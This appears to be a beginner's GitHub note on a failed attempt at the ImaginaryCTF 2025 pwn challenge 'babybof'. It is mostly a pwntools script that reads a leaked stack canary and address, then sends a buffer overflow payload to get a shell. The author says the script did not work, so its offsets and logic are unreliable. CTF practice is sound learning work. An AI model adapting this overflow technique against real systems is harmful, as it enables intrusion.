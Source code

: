 # imaginary ctf 2025

first ctf ever since picoctf (aka ~4 years ago)... realized that i can't even do a simple pwn/web question :(

attempted to solve the 100 pt pwn question "babybof" with the following script (it didn't work)

documenting this so that one day i can look back on this :)
``` python
from pwn import *
p = remote('babybof.chal.imaginaryctf.org', 1337)

stop_at = p.recvuntil(b'enter your input (make sure your stack is aligned!):')
lines = stop_at.split(b'\n') # [b'', b'', etc]

can_add = None
bin_add = None

for line in lines:
    if b'canary' in line:
        can_add = line[-18:]
    if b'/bin/sh' in line:
        bin_add = line[-8:]
print(can_add) # b'0x...'
print(bin_add)

base = b'A'*56
canary = p64(int(can_add, 16)) # set as base 16 (hex)
rbp = b'A'*8
address = p64(int(bin_add, 16))
payload = base + canary + rbp + address
print(payload)

p.send(payload)
p.interactive()
```
